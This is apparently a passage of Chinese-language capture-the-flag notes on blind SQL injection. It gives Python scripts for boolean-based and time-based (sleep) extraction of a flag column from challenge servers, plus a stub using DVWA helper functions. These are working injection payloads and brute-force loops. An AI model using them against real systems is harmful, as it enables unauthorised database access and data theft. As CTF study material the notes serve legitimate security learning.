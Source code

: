 ```sql
    #database=request_Database(url)
    database='dvwa'
    table_number=2
    request_Table(url,database,table_number)
```

```
import requests
import re
url = "http://node4.anna.nssctf.cn:28057/index.php"
for i in range(50):
    for j in range(40,130):
        data = {
        'id':'1^(ascii(substr((select(flag)from(flag)),'+str(i)+',1))!='+str(j)+')'
        #'id': '1^(ascii(substr(database(),' + str(i) + ',1))!=' + str(j) + ')'# 数据库ctftraini
        }
        respont = requests.post(url,data=data)
        z = re.findall(r'Hello',respont.text,re.S)
        if(z):
            print(chr(j),end="")
            break;

```



## 延时注入

有时可以采用AS别名方法，让查询结果显示在界面上
```
import requests
import sys
 
# 基于时间的盲注，过滤了逗号 ,
sql = "127.0.0.1'+(select case when substr((select flag from flag) from {0} for 1)='{1}' then sleep(5) else 0 end))-- +"
url = 'http://47.106.186.166:31590/'
flag = ''
for i in range(1, 40):
    print('正在猜测：', str(i))
    for ch in range(32, 129):
        if ch == 128:
            sys.exit(0)
        sqli = sql.format(i, chr(ch))
        # print(sqli)
        param=sqli
        
        try:
            html = requests.get(url, params=param, timeout=3)
        except:
            flag += chr(ch)
            print(flag)
            break
```
